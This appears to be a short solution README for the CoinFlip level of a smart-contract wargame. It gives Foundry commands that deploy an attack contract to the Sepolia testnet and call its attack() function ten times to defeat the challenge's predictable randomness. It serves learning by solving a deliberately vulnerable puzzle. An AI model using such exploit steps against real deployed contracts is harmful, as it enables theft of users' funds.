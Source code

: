 # CoinFlip Solution

Deploy `CoinFlipHack`:

```
forge create CoinFlipHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey --constructor-args `ìnstanceAddress`
```

Call the `attack()` function 10 times without reverts:

```
cast send `coinFlipHackAddress` "attack()" --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
